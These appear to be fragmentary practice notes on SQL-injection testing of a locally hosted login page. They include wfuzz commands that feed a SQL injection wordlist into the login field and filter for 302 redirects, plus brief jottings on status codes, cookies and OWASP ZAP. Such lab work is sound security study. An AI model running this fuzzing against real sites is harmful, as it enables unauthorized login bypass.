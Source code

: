 > wfuzz -c -z file,/usr/share/wfuzz/wordlist/Injections/SQL.txt -d 'login=FUZZ&password=test1234' -u 'http://127.0.0.1:3000/sign_in'


https://developer.mozilla.org/en-US/docs/Web/HTTP/Status/302

use the payload as username

http 500 code login fail

200 ok

302 found redirect

> wfuzz -c -z file,/usr/share/wfuzz/wordlist/Injections/SQL.txt -d 'login=FUZZ&password=test1234' -u 'http://127.0.0.1:3000/sign_in' | grep 302

find cookies in developer mode

parsing failures

encoders

/usr/local/ZAP_2.9.0/zap.sh
